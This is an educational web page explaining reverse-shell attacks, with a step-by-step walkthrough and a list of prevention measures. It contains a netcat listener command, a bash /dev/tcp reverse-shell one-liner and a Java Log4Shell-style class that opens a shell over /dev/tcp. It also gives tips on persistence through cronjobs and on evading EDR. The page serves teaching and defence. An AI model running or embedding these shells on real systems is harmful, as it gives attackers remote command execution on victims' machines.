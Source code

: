 ```yaml
---
layout: learning
title: "Reverse Shell Attacks"
subtitle:  "Arbitrary Code Execution Made Easy"
date: 2023-11-10 15:45:31 +0530
categories: ["edu"]
tags: ["reverse-shell", "cybersecurity"]
author: "Karie Moorman"
---
```



<h3 align='center'>Table of Contents</h3>
<div class='tbl'>
<ul style='display: flex; flex-wrap: row; gap: 30px; margin-left: 10px; justify-content: center;'>
<li><a href='#overview'>Overview</a></li>
<li><a href='#how'>Step-by-Step</a></li>
<li><a href='#prevent'>Prevention</a></li>
</ul>
</div>

---

<h3 align='center' id='overview'>Overview</h3>

A reverse shell is a type of shell in which a target machine connects back to an attacker's machine, allowing the attacker to carry out remote command execution on the target machine. This is the opposite of the prototypical scenario, where an attacker connects to a victim machine to obtain a shell. Reverse shells are advantageous in that they effectively bypass firewall and network restrictions typically encountered with bind shells because the target machine calls to for the attacker's machine.

In a reverse shell attack, the attacker establishes a listening post on their own machine. The attacker then compromises a target machine and plants a script on the compromised target machine to initialize connection back to the attacker's system. Once the connection is established, it allows the attacker to have remote command execution on the target machine. This effectively provides the attacker with interactive access to the target system's command line or shell, enabling them to execute commands and potentially gain control over various aspects of the compromised system. 

Reverse shells are commonly used in hacking and penetration testing for various purposes, e.g., gaining unauthorized access to a system, executing commands, and exfiltrating data. 

--- 

<h3 align='center' id='how'>Step-by-Step</h3>

<h4>Step 1. Attacker sets up a listener.</h4>

The attacker sets up a program or script on their machine to listen for incoming connections. This is usually done using tools like Netcat, Metasploit, or other custom scripts. Use tools such as Metasploit allows the attacker to toggle between established connections, disable firewalls, and run exploits. 


```bash
nc -lvnp <port>
```

```bash
nc: netcat 

-l: This option instructs netcat to operate in listening mode. In this mode, netcat listens for incoming connections rather than initiating connections to a remote host.

-v: Enables verbose mode, providing more detailed information about the connections and data being transferred.

-n: This option tells netcat not to perform DNS resolution on incoming IP addresses, displaying numeric IP addresses instead of resolving them to hostnames.

-p: Specifies the port number to listen on. You need to provide a port number immediately after this option.

Optional: 

-k: Keeps process alive.

```

<h4>Step 2. Payload execution on the target.</h4>

The attacker somehow injects a payload into the target system, followed by escalation to root privileges. A successful attack could be executed through exploiting vulnerabilities (e.g., SQL Injection (SQLi), Cross-Site Scripting (XSS), malicious image/PDF files), social engineering, or other means. 

Common payload placements: 
- Add to startup, e.g., in custom shortcuts.

- Add as a scheduled task (e.g., cronjob).


<h4>Step 3. Target connects back. </h4>

Once the payload is executed on the target system (i.e., a local or cloud-based server), it initiates a connection back to the attacker's machine. This connection is typically established over a network protocol like TCP or UDP, e.g., 

A simple Bash script:

```bash
/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

A simple Bash script wrapped in Java (i.e., <a href='https://snyk.io/blog/log4j-rce-log4shell-vulnerability-cve-2021-44228/' target='_blank'>Log4J</a>): 

```java
public class Evil implements ObjectFactory {

   @Override
   public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
       String[] cmd = {
               "/bin/bash",
               "-c",
               "exec 5<>/dev/tcp/127.0.0.1/9001;cat <&5 | while read line; do $line 2>&5 >&5; done" };

       Runtime.getRuntime().exec(cmd);
       return null;
   }
}
```


Obfuscation and encryption methods are often used to bypass EDR detection. Also consider using polymorphic code, port-forwarding, and a persistant shell (e.g., `screen`, `tmux`) to ensure consistent connection between target and attacker machines. This also allows the payload to periodically check for an established connection and if no connection is detected, will try to establish a connection.

Attacker's machine will show successful connection established, e.g., 

```bash
nc -lvnp <port>
Connection to port <port> succeeded.
```

<h4>Step 4. Remote code execution via interactive shell. </h4>

After the connection is established, the attacker gains an interactive shell on the target system. This shell allows the attacker to execute commands on the target as if they had direct access to its command line.

---

<h3 align='center' id='prevent'>Prevention</h3>

Reduce the opportunity for reverse-shell attacks via system hardening.

- Execution statements:

Avoid statements in your code that can execute scripts or other pieces of code (e.g., `exec()`) as much as possible.

- Input Validation and Sanitization:

Consider all input as potentially malicious. Validate and sanitize both direct and indirect input to reduce opportunity for malicious code execution.

- Firewall Configuration:

Use a firewall to restrict incoming and outgoing network traffic. Only allow necessary ports and services to run. Disable unnecessary services and ports, especially those that are commonly exploited.

- Update and Patch Software:

Regularly update and patch your operating system and all installed software to address known vulnerabilities.

- Strong Authentication:

Enforce strong password policies and consider using multi-factor authentication (MFA) to add an extra layer of security.

- Least Privilege Principle:

Follow the principle of least privilege, where users and processes are granted only the minimum level of access necessary to perform their tasks. This includes personal-use computers; don’t run your application as root but create a user with the least privileges needed.

- Network Segmentation:

Segment your network to isolate critical systems and services. This can prevent lateral movement by attackers within your network.

- Disable Unnecessary Shell Commands:

Limit or disable unnecessary shell commands, especially those that can be used for remote code execution.

- File System Integrity Monitoring:

Implement file integrity monitoring tools to detect unauthorized changes to critical system files.

- Logging and Monitoring:

Enable comprehensive logging and regularly review logs for signs of suspicious activities. Log analysis can help in identifying and responding to security incidents. Implement Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) to detect and block suspicious network activity such as reverse shell connections.